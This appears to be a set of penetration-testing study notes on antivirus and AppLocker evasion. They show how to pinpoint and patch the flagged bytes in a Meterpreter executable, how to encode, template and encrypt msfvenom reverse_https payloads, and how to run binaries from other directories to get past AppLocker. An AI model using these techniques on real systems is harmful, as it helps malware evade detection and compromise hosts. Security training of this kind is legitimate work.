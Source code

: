 #### Find-AVSignature (good in theory, bad in practice)

>[!code]- Downloaded and Import Find-AVSignature
>###### [Download](https://obscuresecurity.blogspot.com/2012/12/finding-simple-av-signatures-with.html) then Import Find-AVSignature
>```powershell
>Import-Module ./Find-AVSignature.ps1
>```

>[!code]- Run Find-AVSignature to find the flagged byte[s]
>###### Run for the first time
>- `StartByte 0`, `EndByte max` to scan the entire executable
>- `Interval` to specify the size of each individual segment of the file to split
>```powershell
>PS C:\Tools> Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
>```
>###### Run AV against each split file
>The below output shows that the first signature was detected in the third file, somewhere between offset 10000 and 20000.
>```powershell
>PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest1
>C:\Tools\avtest1\met_0.bin: OK  
>C:\Tools\avtest1\met_10000.bin: OK
>C:\Tools\avtest1\met_20000.bin: Win.Trojan.MSShellcode-7 FOUND C:\Tools\avtest1\met_30000.bin: Win.Trojan.MSShellcode-7 FOUND C:\Tools\avtest1\met_40000.bin: Win.Trojan.MSShellcode-7 FOUND C:\Tools\avtest1\met_50000.bin: Win.Trojan.MSShellcode-7 FOUND C:\Tools\avtest1\met_60000.bin: Win.Trojan.MSShellcode-7 FOUND C:\Tools\avtest1\met_70000.bin: Win.Trojan.MSShellcode-7 FOUND C:\Tools\avtest1\met_73801.bin: Win.Trojan.MSShellcode-7 FOUND
>```
>###### Re-run against the first flagged file, but with increasinly granular parameters
>This will show where in first flagged file the flagged byte sequence lies.
>```powershell
>PS C:\Tools> Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest2 -Verbose -Force
>
># After the above results... more granular...
>PS C:\Tools> Find-AVSignature -StartByte 18000 -EndByte 19000 -Interval 100 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest3 -Verbose -Force
>
># More granular
>PS C:\Tools> Find-AVSignature -StartByte 18800 -EndByte 18900 -Interval 10 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest4 -Verbose -Force
>
>PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest5
>C:\Tools\avtest5\met_18860.bin: OK
>C:\Tools\avtest5\met_18861.bin: OK
>C:\Tools\avtest5\met_18862.bin: OK
>C:\Tools\avtest5\met_18863.bin: OK
>C:\Tools\avtest5\met_18864.bin: OK
>C:\Tools\avtest5\met_18865.bin: OK
>C:\Tools\avtest5\met_18866.bin: OK
>C:\Tools\avtest5\met_18867.bin: Win.Trojan.Swrort-5710536-0 FOUND C:\Tools\avtest5\met_18868.bin: Win.Trojan.Swrort-5710536-0 FOUND C:\Tools\avtest5\met_18869.bin: Win.Trojan.Swrort-5710536-0 FOUND C:\Tools\avtest5\met_18870.bin: Win.Trojan.Swrort-5710536-0 FOUND
>```

>[!code]- Change the flagged byte[s]
>###### Using PowerShell
>```powershell
>$bytes = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
>$bytes[18867] = 0
>[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
>```

>[!warning]- Sometimes you need to modify the before or after byte instead

>[!warning]- Sometimes also you need to change the flagged byte to 0xFF rather than 0x00

>[!code]- Bring back functionality to changed bytes
>Changing the bytes probably makes the exploit not work anymore. The exploit needs to be altered in such a way that it works again.
#### Encoding & encrypting payloads

>[!warning]- Encoding and/or encrypting alone may not work because the decoder/decryptor could be detectable

>[!code]- Msfvenom
>###### Use encoders (-e)
>```powershell
># 32-bit
>msfvenom -e x86/shikata_ga_nai -f exe -o /var/www/html/met.exe
># 64-bit
>msfvenom -e x64/zutto_dekiru
>```
>###### Use 64-bit payload where possible (/x64/)
>```powershell
>msfvenom -p windows/x64/meterpreter/reverse_https
># rather than
>msfvenom -p windows/meterpreter/reverse_https
>```
>###### Use templates (-x)
>```powershell
>msfvenom -x /home/kali/notepad.exe
>```
>###### Use encryption (--encrypt, --encrypt-key)
>```powershell
>msfvenom --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43
>```
#### AppLocker Bypasses

>[!code]-
>###### Change directory application run from
>```powershell
>copy C:\Windows\System32\calc.exe C:\Windows\Tasks\calc2.exe
>```
>###### Use Python or Perl
>```powershell
>C:\Users\student> python test.py
>```